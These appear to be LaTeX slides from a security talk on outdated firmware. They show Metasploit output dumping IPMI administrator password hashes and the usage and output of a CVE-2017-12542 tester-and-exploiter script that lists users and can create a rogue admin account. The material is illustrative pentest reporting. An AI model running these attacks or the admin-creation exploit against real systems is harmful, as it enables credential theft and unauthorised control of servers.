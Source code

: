 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
I have seen this for many many years, and still see this in networks after 2020



Vulnerability IPMI RAKP Dump hash:
\begin{alltt}\footnotesize
Name Description
---- -----------
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.205:623 - IPMI - Hash found: Administrator:ef4...c956bf6c9a9618a771c
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > setg RHOSTS 172.16.10.200
RHOSTS => 172.16.10.200
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.200:623 - IPMI - Hash found: Administrator:1aa4314318a30600...585fa89609bd2a9
\end{alltt}

Firmware was from 2017 -- so multiple years old, updates were available



\begin{alltt}\footnotesize
hkj@kate:~/bin$ ./get-users.py -h
usage: get-users.py [-h] [-t] [-e] [-u U] [-p P] ip
CVE-2017-12542 Tester and Exploiter script.
positional arguments:
  ip
  target IP
optional arguments:
  -h, --help show this help message and exit
  -t        Test. Trigger the exploit and list all users
  -e        Exploit. Create a new admin user with the credentials specified in -u and -p
  -u U      username of the new admin user
  -p P      password of the new admin user
hkj@kate:~/bin$ ./get-users.py 172.16.10.205
[+] Target is VULNERABLE!
[+] Account name: User Account Username: Administrator
[+] Account name: User Account Username: ilo
\end{alltt}


\begin{list2}
\item Another server had firmware from 2014 allowing the creation of administrative users directly
\end{list2}



This case from 2022 was a municipality in Denmark, having HikVision IP cameras, these have been critisized a lot, for good reason.
\end{document}

